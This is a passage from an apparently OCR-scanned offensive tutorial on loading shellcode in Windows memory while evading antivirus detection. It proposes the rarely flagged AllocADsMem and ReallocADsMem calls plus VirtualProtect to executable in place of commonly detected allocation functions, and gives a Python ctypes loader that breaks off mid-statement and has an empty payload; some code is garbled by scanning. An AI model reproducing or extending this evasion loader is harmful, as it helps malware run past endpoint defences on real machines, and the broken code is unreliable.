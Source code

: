 ## Explore new APIs

​ From the above study, we can see that the loading of `shellcode` is divided into `3` steps: apply for memory -> `shellcode` to write to memory (-> Modify memory properties) -> execute this memory. Some commonly used functions are basically killed by soft tags, so it is particularly important to find a new `API` to replace it.

### AllocADsMem+ReallocADsMem

- `AllocADsMem`: Used to allocate a memory block of a specified size.

```c++
LPVOID AllocADsMem(
  [in] DWORD cb
);
```

- `ReallocADsMem`: Used to reallocate and copy existing memory blocks.

```c++
LPVOID ReallocADsMem(
  [in] LPVOID pOldMem,
  [in] DWORD cbOld,
  [in] DWORD cbNew
);
```

`AllocADsMem` can allocate a readable, writable, but unexecutable memory block; `ReallocADsMem` can copy the specified content and apply for a new piece of memory for storage, but can only be copied from memory. Therefore, the idea of ​​using it is: first use `AllocADsMem` to allocate a readable, writable but unexecutable memory block, then use `ReallocADsMem` to copy the allocated memory blocks of `AllocADsMem`, and then use `VirtualProtect` to modify the memory protection constant to be readable, writable and executable.

```python
# -*-coding:utf-8 -*-
"""
The ctypes library is a module in Python that calls the system dynamic link library functions. The ctypes library can use the C language dynamic link library and pass functions to it.
AllocADsMem+ReallocADsMem+VirtualProtect
"""
import ctypes

shellcode = bytearray(b'')
ctypes.windll.Activeds.AllocADsMem.restype = c
types.c_uint64
ptr_alloc = ctypes.windll.Activeds.AllocADsMem(
    ctypes.c_int(len(shellcode))
)

ptr_realloc = ctypes.windll.Activeds.ReallocADsMem(
    ptr_alloc,
    len(shellcode),
    len(shellcode)
)

ctypes.windll.kernel32.VirtualProtect(
    ptr_realloc,
    ctypes.c_int(len(shellcode)),
    0x40,
    ctypes.byref(ctypes.c_long(1))
)

buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlMoveMemory(
```